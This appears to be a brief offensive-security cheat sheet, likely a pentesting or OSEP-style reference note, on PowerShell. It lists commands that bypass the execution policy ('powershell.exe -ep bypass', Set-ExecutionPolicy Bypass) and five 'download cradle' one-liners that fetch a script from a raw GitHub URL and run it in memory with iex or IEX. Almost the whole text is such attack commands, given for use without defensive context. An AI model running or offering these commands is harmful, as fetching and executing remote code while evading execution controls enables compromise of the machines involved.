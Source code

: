 # Bypass EP
Start PowerShell from cmd.exe:

powershell.exe -ep bypass



OR If already running-

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted

$Env:PSExecutionPolicyPreference = 'Bypass'


# Run Script cradles

iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")

IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content

iex ((Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content)

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')

IEX ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content



# Download Cradle and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
